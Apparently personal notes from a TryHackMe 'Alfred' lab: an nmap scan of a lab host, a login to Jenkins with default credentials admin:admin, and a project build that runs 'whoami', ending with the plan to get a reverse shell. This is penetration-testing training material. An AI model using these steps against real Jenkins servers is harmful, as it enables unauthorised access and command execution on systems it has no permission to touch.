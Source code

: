 kali@kali:~/oscptraining/tryhackme/Alfred$ nmap -sV -sC -o nmap 10.10.22.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-21 10:27 EDT
Nmap scan report for 10.10.22.129
Host is up (0.36s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-21T14:28:45+00:00; -1s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.14 seconds

nothing much after running gobuster either using common.txt and big.txt

lets look for default pw and user for jenkin
http://10.10.22.129:8080/login?from=%2F
admin;admin 
alright great, got our asses in!

can see that it is running on ver 2.190.1
Page generated: Oct 21, 2020 3:45:35 PM BSTREST APIJenkins ver. 2.190.1
lets check out searchsploit. not too sure about those exploits...
looking at the website we proceed to the project page and build a project


Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS

seems like we might be able to do a reverse shell by building a project


